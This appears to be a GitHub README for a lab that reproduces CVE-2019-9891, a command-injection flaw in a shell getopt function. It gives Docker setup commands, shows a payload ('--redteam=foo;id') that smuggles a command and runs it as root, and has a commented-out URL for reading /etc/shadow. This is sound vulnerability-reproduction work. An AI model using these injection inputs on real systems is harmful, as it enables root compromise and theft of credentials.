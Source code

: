 # CVE-2019-9891

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-9891>

## PoC / Exploit
* <https://www.redteam-pentesting.de/en/advisories/rt-sa-2019-007/-code-execution-via-insecure-shell-function-getopt-simple>
 

## Environment used

* Ubuntu 18.04.4 LTS

## Reproduction 

* Server
    - Docker version
        ```shell script 
        docker run --rm -p8022:22 -it simaofsilva/cve-2019-9891
        ```
      
    - Script version
        ```shell script
        sudo bash Script_version/installation.sh
        ```    
* Client
    ```shell script
    bash login.sh
    ```
  After login run `sudo /usr/local/sbin/cleanup.sh '--redteam=foo;id'` and you'll see the result of *id* command as root.  



[comment]: <> (https://localhost:10000/file/show.cgi/etc/shadow)